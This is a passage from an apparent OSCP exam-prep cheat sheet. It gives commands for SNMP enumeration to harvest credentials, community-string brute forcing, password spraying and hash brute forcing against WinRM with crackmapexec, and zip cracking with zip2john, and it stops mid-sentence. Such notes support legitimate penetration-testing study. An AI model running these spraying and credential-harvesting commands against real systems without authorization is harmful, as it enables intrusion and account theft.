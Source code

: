 
`sudo apt-get install snmp-mibs-downloader`

`sudo download-mibs`

then edit the `/etc/snmp/snmp.conf` file and remove the line from the image above

Next, run this command and see if credientals get snagged (Photo example below):

`snmpwalk -v 2c -c public 192.168.190.156 NET-SNMP-EXTEND-MIB::nsExtendOutputFull`

if this doesnt work may also be:

`snmpwalk -v 1 -c public 192.168.214.149 NET-SNMP-EXTEND-MIB::nsExtendOutputFull`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/24ddf192-5158-4a6e-8943-aafcb6e22376)

Otherwise run this command 

`snmpwalk -v 1 -c public <IP> .1 > <Whatever>.txt`

This will output A LOT OF INFO, `cat`out the text file and `grep` for “STRING” and observe the output. Could give a hint such as a “Password was Reset” or “Password Default” FOR EXAMPLE I receive this output once with FTP also being open on the device

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/2f694ace-865a-40e2-b81b-e8f136efe0dc)

If snmp port is open but snmpwalk fails may need to brute force community string. That is shown in the section above of Active Direcrtoy magic. I like this wordlist (https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt) however that is up to prefrence


# Passowrd attacks

### Password attacks

AWLAYS CHECK https://crackstation.net/

### Spraying against winrm

`sudo crackmapexec winrm <IP> --local-auth -u <filenameORusername> -p <filenameORpassword>`

Use —local-auth when attempting to login in locally, can be necessary to attempt spraying into AD environment

Also you can brute force with hashes 

`sudo crackmapexec winrm <IP> -u <filenameORusername> -H <filenameORhashes>`

### Craking zip:

make hash of zip file w/ zip2hohn:

`zip2john <ZipFileName>.zip > <Whatever>.hash`

and then crack with joh
